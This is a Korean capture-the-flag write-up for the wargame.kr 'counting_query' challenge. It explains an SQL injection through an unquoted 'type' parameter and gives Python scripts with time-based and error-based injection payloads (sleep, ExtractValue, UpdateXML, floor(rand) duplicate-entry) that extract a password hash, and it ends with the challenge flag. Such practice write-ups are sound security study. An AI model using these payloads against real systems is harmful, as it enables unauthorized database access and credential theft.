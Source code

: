 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-01-07-28.png)

# **Write-Up**

ID에는 자신의 공인 IP가 박혀있고 PW를 입력하여 로그인하는 문제이다.

![](images/2022-01-03-01-07-46.png)

우선 FLAG를 얻을 수 있는 로직을 확인해 보자.

1. t_user라는 테이블에서 user_id, ps, type을 기준으로 데이터를 뽑고, error 확인

2. t_user라는 테이블에서 id, ps를 기준으로 해당되는 ps를 뽑고 ps가 비어있는 지 확인

3. 뽑은 ps와 입력한 ps가 일치하면 FLAG획득

```php
if(false === $result=mysql_query("select * from t_user where user_id='$id' and ps='$ps' and type=$type")){
err("DB Error :: ".mysql_error());
}

$row=mysql_fetch_array($result);

if(empty($row['user_id'])){
err("Login Error :: not found your `user_id` or `password`");
}

echo "welcome <b>$id</b> !! (Login count = $log_count)";

$row=mysql_fetch_array(mysql_query("select ps from t_user where user_id='$id' and ps='$ps'"));

//patched 04.22.2015
if (empty($ps)) err("DB Error :: data not found..");

if($row['ps']==$ps){ echo "<h2>wow! auth key is : ".auth_code("counting query")."</h2>"; }
```

소스를 보면 mysql_real_escape_string으로 id, pw, type에 대하여 특수문자 처리를 하여 SQLi를 막는다. 즉 ' 와 같은 문자를 사용할 수 없지만, type은 ' 가 필요 없는 쿼리로 이루어져 있다.

```php
$id=mysql_real_escape_string($_POST['id']);
$ps=mysql_real_escape_string($_POST['pw']);
$type=mysql_real_escape_string($_POST['type']);
```

type에 SQLi가 통한다는 검증이 필요하다.

```python
import urllib
import urllib.request
import time

url         = 'http://wargame.kr:8080/counting_query/login_ok.php'
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'123', 'type':'1 or sleep(5)'}).encode()
request     = urllib.request.Request(url, headers = headers, data = data)
s_time      = time.time()
response    = urllib.request.urlopen(request)
print(response.read().decode())
print(int(time.time() - s_time) - 2)

[Output]
<script>alert("Login Error :: not found your `user_id` or `password`");window.location.href='./';</script>
5
```

또한 ps가 초기화되므로 BlindSQLi로 ps의 값을 1개씩 알아낼 수가 없다.

```php
$row=mysql_fetch_array(mysql_query("select count(*) from login_count where id='$id'"));
$log_count = (int)$row[0];
if($log_count >= 4){
    pw_change($id);
    count_init($id);
    err("SECURITY : bruteforcing detected - password is changed");
}
```

ps또한 난수값이 들어가기에 ErrorBased SQLi로 데이터를 알아내야 한다.

```php
function uniq($data){ return md5($data.uniqid());}
```

ErrorBased SQLi로 DB명을 출력하는 테스트를 해보면 counting_query라는 DB명을 알아오는 것을 확인할 수 있다.

```python
import urllib
import urllib.request

url         = 'http://wargame.kr:8080/counting_query/login_ok.php'
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
# ExtratValue를 이용한 방법
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'123', 'type':'1 or ExtractValue( 1, concat( 1, database() ) )'}).encode()
# UpdateXML을 이용한 방법
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'123', 'type':'1 or UpdateXML(1, concat(1, database() ), 1)'}).encode()
request     = urllib.request.Request(url, headers = headers, data = data)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
# ExtratValue를 이용한 방법
<script>alert("DB Error :: XPATH syntax error: 'counting_query'");window.location.href='./';</script>
# UpdateXML을 이용한 방법
<script>alert("DB Error :: XPATH syntax error: 'counting_query'");window.location.href='./';</script>
```

t_user에서 ps를 뽑아본지만 t_user를 다시 참조할 수 없다는 error가 출력된다.

```python
... 생략 ...
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'123', 'type':'1 or ExtractValue( 1, concat( 1, (select ps from t_user limit 0,1) ) )'}).encode()
... 생략 ...

<script>alert("DB Error :: Can't reopen table: 't_user'");window.location.href='./';</script>
```

t_user는 t_table함수에서 임시 테이블로서 만들어지고, 임시테이블은 임시테이블을 참조한 쿼리에서 서브쿼리로 다시 임시테이블을 참조할 수 없다는 특징을 가진다.

> [MySQL Temporary Table](https://dev.mysql.com/doc/refman/8.0/en/temporary-table-problems.html)

```php
function t_table($id) { return mysql_query("create temporary table t_user as select * from all_user_accounts where user_id='$id'"); };
```

그렇다고 원본 테이블인 all_user_accounts를 참조하려고 했지만 preg_match로 필터링된다.

```php
if(preg_match("/all_user_accounts/i",$type)){
    err("SECURITY : don`t access the other account");
}
```

다른 ErrorBased SQL query로 시도한다. (query 뜻은 나도 모름)

```python
... 생략 ...
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'pw', 'type':'2 or row(1,1) > (select count(*), concat( ps, floor( rand(0)*2 ) ) as x from (select 1 union select 2 union select 3) as a group by x)'}).encode()
... 생략 ...

[Output]
<script>alert("DB Error :: Duplicate entry 'c0d2ffd8b00991d6af9ec37e18cbbb8b1' for key 'group_key'");window.location.href='./';</script>
```

나온 ps(맨 뒤의 1은 concat으로 붙혀진 값이라서 빼고 MD5 해쉬 자릿수인 32byte만 ps)를 가지고 로그인하면 FLAG를 얻을 수 있다. (type은 user로)

![](images/2022-01-03-01-11-10.png)

# **FLAG**

**d59e0ce137b5b9e79c10f442d7c3140c0084a147**